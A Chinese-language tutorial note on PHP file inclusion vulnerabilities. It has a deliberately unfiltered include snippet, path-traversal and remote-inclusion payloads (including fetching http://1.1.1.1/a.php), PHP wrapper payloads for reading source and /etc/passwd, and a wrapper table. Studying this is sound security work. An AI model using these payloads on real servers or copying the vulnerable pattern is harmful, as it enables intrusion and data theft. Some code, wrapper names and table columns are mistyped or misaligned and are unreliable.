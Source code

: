 # 文件包含原理

#### **文件包含函数1**

| 文件包含函数          | 返回值                 | 限制           |
| --------------- | ------------------- | ------------ |
| include()       | 包含出错，只是提示但是后续依然执行代码 | 不限制          |
| require()       | 包含出错，直接退出，不执行后续代码   | 不限制          |
| include\_once() | 同include            | 不能包含已经包含过的文件 |
| require\_once() | 同require            | 不能包含已经包含过的文件 |

#### **文件包含代码**

**漏洞代码**

```php
<?php 
$file=$_GET['file'];
include(file);
?>
//file获取未做任何过滤
```

**攻击代码a.php**

**使用4个文件包含函数包含文件，与文件后缀无关，txt，png文件后缀依然能够当成php代码解析**

```php
<?php 
phpinfo();
?>
```

#### 文件包含分类

**本地文件包含LFI**

* a.php存放在本地
* payload
  * ../../../../../a.php
* 执行效果
  * 成功解析phpinfo

**远程文件包含**

* 前提条件

```
php.ini配置文件中两个开关必须同时打开（注意是必须同时）
allow_url_fopen=on
allow_url_include=on
```

* a.php存放在远程远程服务器，例:1.1.1.1
* payload
  * http://1.1.1.1/a.php
*   执行效果

    * 成功解析phpinfo

    **php伪协议**
* 前置
  * 不同的协议拥有不同的前置条件
* payload
  * file//etc/passwd
  * http://1.1.1.1/a.php
  * php://filter/convert.base64-encode/resource=a.php
  * pchar://1.1.1.1/test.zip/a.php
  * data:text/plain,
* 执行效果
  * 成功解析phpinfo
  * php://filter返回php代码的base64编码内容，可反向编码获取php代码

| php伪协议       | 用途                                                                             | 常用敏感文件      | allow\_url\_include | allow\_url\_fopen |
| ------------ | ------------------------------------------------------------------------------ | ----------- | ------------------- | ----------------- |
| file://      | 访问本地文件系统                                                                       | /etc/passwd | 无                   | 无                 |
| php://input  | 直接读取POST请求的没有经过解析的原始数据，可以理解为POST请求的body参数，且只能为字符串不能为键值对；file\_get\_contents可利用 | on          | 无                   |                   |
| php://filter |                                                                                | 无           | 无                   |                   |
| phar://      | php解压压缩包的伪协议，无论什么后缀都可以当成压缩包解压                                                  | 无           | 无                   |                   |
| data://      | 数据流封装器                                                                         | on          | on                  |                   |
